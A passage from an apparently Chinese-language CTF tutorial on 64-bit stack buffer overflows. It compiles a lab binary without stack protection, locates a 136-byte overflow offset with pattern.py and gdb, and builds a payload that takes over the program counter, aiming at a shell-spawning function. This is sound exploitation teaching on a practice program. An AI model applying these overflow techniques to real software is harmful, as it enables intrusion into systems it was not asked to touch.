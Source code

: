 
我们打开ASLR并用如下方法编译：

```
#!bash
$ gcc -fno-stack-protector level3.c -o level3 
```

通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到callsystem()这个函数的地址上即可。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。接下来就是要找溢出点了。我们还是用老方法生成一串定位字符串：

```
#!bash
$python pattern.py create 150 > payload
$ cat payload 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9 
```

然后运行 `gdb ./level3` 后输入这串字符串造成程序崩溃。

```
#!bash
(gdb) run < payload
Starting program: /home/mzheng/CTF/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b3 in vulnerable_function () 
```

奇怪的事情发生了，PC指针并没有指向类似于 `0x41414141` 那样地址，而是停在了 `vulnerable_function()` 函数中。这是为什么呢？原因就是我们之前提到过的程序使用的内存地址不能大于 `0x00007fffffffffff` ，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。

```
#!bash
(gdb) x/gx $rsp
0x7fffffffe188: 0x3765413665413565 
```

在GDB里，x是查看内存的指令，随后的gx代表数值用64位16进制显示。随后我们就可以用pattern.py来计算溢出点。

```
#!bash
$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136 
```

可以看到溢出点为136字节。我们再构造一次payload，并且跳转到一个小于 `0x00007fffffffffff` 的地址，看看这次能否控制pc的指针。

```
#!bash
python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload

(gdb) run < payload 
Starting program: /home/mzheng/CTF/level1 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? () 
```
